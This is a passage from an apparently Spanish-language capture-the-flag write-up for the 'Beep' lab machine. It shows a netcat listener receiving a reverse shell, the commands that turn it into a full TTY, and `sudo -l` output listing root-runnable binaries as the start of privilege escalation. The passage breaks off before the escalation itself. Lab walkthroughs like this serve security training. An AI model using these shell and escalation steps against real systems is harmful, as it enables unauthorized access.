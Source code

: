 ![](../assets/images/Beep/cmd.png)

Nos podemos en escucha por el puerto 443 `nc -nlvp 443`

![](../assets/images/Beep/whoami.png)

De esta manera ganamos acceso a la máquina máquina.

Ahora hacemos un tratamiento de la TTY
`script /dev/null -c bash`+ hacemos un CTRL+Z  +  `stty raw -echo; fg` +  `reset xterm` damos enter  +   `export TERM=xterm`  +  `export SHELL=bash` + `stty rows 44 columns 184`

<h3 style="text-align:center" id="escalada-de-privilegios">ESCALADA DE PRIVILEGIOS</h3><hr>

```ruby
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
```